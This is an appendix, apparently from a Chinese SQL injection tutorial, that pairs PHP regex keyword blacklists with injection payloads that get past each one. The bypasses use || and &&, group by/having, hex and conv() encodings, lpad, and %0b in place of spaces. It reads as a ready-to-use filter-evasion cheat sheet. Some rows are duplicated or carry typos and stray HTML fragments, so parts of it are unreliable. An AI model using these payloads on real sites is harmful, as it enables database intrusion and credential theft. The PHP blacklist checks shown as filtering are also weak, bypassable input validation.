 
## 附录 PHP中一些常见的过滤方法及绕过方式

```bash
过滤关键字   and or
php代码   preg_match('/(and|or)/i',$id)
会过滤的攻击代码    1 or 1=1 1 and 1=1
绕过方式    1 || 1=1 1 && 1=1

过滤关键字   and or union
php代码   preg_match('/(and|or|union)/i',$id)
会过滤的攻击代码    union select user,password from users
绕过方式    1 && (select user from users where userid=1)='admin'

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'

过滤关键字   and, or, union, where, limit
php代码   preg_match('/(and|or|union|where|limit)/i', $id)
会过滤的攻击代码    1 && (select user from users limit 1) = 'admin'
绕过方式    1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin

过滤关键字   and, or, union, where, limit, group by
php代码   preg_match('/(and|or|union|where|limit|group by)/i', $id)
会过滤的攻击代码    1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式    1 && (select substr(group_concat(user_id),1,1) user from users ) = 1

过滤关键字   and, or, union, where, limit, group by, select
php代码   preg_match('/(and|or|union|where|limit|group by|select)/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && substr(user,1,1) = 'a'

过滤关键字   and, or, union, where, limit, group by, select, '
php代码   preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && user_id is not null 1 && substr(user,1,1) = 0x61 1 && substr(user,1,1) = unhex(61)

过滤关键字   and, or, union, where, limit, group by, select, ', hex
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = unhex(61)
绕过方式    1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。

过滤关键字   and, or, union, where, limit, group by, select, ', hex, substr
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = lower(conv(11,10,16))/td>
绕过方式    1 && lpad(user,7,1)

过滤关键字   and, or, union, where, limit, group by, select, ', hex, substr, 空格
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
会过滤的攻击代码    1 && lpad(user,7,1)/td>
绕过方式    1%0b||%0blpad(user,7,1)

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 || (select user from users where user_id = 1) = 'admin'
绕过方式    1 || (select user from users limit 1) = 'admin'
```